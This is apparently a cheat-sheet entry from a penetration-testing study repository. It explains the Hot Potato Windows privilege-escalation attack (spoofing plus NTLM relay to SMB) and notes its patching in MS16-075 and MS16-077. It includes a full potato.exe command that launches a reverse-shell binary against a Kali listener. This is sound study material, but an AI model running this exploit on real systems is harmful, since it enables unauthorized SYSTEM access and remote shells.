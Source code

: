 # Hot Potato
Hot Potato is the name of an attack that uses a spoofing attack along with an NTLM relay attack to gain SYSTEM privileges.
The attack tricks Windows into authenticating as the SYSTEM user to a fake HTTP server using NTLM. The NTLM credentials then get relayed to SMB in order to gain command execution.

***This attack works on Windows 7, 8, early versions of Windows 10, win Server 2008, and Server 2012. and their server counterparts.***

![hot potato](https://jlajara.gitlab.io/assets/images/posts/20201122/Diagram_1.png)

To understand deeper this technique, the researchers post/video are recommended:

- [https://foxglovesecurity.com/2016/01/16/hot-potato/](https://foxglovesecurity.com/2016/01/16/hot-potato/)
- [https://www.youtube.com/watch?v=8Wjs__mWOKI](https://www.youtube.com/watch?v=8Wjs__mWOKI)

***exploit***
(Note: These steps are for Windows 7)
Download the binary from the repository: https://github.com/foxglovesec/Potato
1. Copy the potato.exe exploit executable over to Windows.
2. Start a listener on Kali.
3. Run the exploit:
`.\potato.exe -ip <local ip> -cmd "C:\PrivEsc\reverse.exe" -enable_httpserver true -enable_defender true -enable_spoof true -enable_exhaust true`
4. Wait for a Windows Defender update, or trigger one manually.


***Is this vulnerability exploitable right now?***

Microsoft patched this (MS16-075) by disallowing same-protocol NTLM authentication using a challenge that is already in flight. What this means is that **SMB->SMB NTLM relay from one host back to itself will no longer work**. MS16-077 WPAD Name Resolution will not use NetBIOS (CVE-2016-3213) and does not send credential when requesting the PAC file(CVE-2016-3236). **WAPD MITM Attack is patched.**